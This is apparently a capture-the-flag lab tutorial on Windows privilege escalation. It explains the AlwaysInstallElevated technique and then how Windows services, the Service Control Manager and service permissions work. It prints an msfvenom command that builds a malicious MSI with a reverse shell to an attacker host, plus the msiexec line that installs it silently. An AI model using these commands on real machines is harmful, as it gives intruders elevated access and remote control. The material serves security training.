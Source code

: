 Windows installer files (also known as .msi files) are used to  install applications on the system. They usually run with the privilege  level of the user that starts it. However, these can be configured to  run with higher privileges from any user account (even unprivileged  ones). This could potentially allow us to generate a malicious MSI file  that would run with admin privileges.

**Note:** The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.

This method requires two registry values to be set. You can query these from the command line using the commands below.

            Command Prompt       

C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

To be able to exploit this vulnerability, both should be set.  Otherwise, exploitation will not be possible. If these are set, you can  generate a malicious .msi file using `msfvenom`, as seen below:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.123.240 LPORT=LOCAL_PORT -f msi -o malicious.msi
```

As this is a reverse shell, you should also run the Metasploit  Handler module configured accordingly. Once you have transferred the  file you have created, you can run the installer with the command below  and receive the reverse shell:

            Command Prompt       

    C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi

## Windows Services

Windows services are managed by the **Service Control Manager**  (SCM). The SCM is a process in charge of managing the state of services  as needed, checking the current status of any given service and  generally providing a way to configure services.

Each service on a Windows machine will have an associated executable  which will be run by the SCM whenever a service is started. It is  important to note that service executables implement special functions  to be able to communicate with the SCM, and therefore not any executable  can be started as a service successfully. Each service also specifies  the user account under which the service will run.

To better understand the structure of a service, let's check the apphostsvc service configuration with the `sc qc` command:

Here we can see that the associated executable is specified through the **BINARY_PATH_NAME** parameter, and the account used to run the service is shown on the **SERVICE_START_NAME** parameter.

Services have a Discretionary Access Control List (DACL), which  indicates who has permission to start, stop, pause, query status, query  configuration, or reconfigure the service, amongst other privileges. The  DACL can be seen from Process Hacker (available on your machine's  desktop):
A subkey exists for every service in the system. Again, we can see the associated executable on the **ImagePath** value and the account used to start the service on the **ObjectName** value. If a DACL has been configured for the service, it will be stored in a subkey called **Security**. As you have guessed by now, only administrators can modify such registry entries by default.
